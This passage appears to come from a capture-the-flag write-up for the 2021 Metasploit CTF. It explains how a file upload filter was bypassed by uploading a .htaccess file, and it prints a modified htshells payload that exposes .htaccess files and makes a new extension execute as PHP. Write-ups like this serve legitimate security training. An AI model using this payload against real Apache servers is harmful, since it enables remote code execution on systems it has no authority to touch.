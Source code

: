 ![Port 20055](/assets/images/2021/12/MetasploitCTF/Port20055.png "Port 20055")

This one requires to exploit a file upload vulnerability. The code prevent uploading any executable file. But it does not prevent uploading a .htaccess file. So I could upload one and change the way Apache handle some files. I used one of the payload from [htshells](https://github.com/wireghoul/htshells) and modified it to make a new extension executable by PHP. The file also made .htaccess accessible in the upload folder.

```
# <!--  Self contained .htaccess web shell - Part of the htshell project
# Written by Wireghoul - http://www.justanotherhacker.com

# Override default deny rule to make .htaccess file accessible over web
<Files ~ "^\.ht">
# Uncomment the line below for Apache2.4 and newer
    Require all granted
    Order allow,deny
    Allow from all
</Files>

# Make .vuln file executable as PHP
AddType application/x-httpd-php .vuln
```
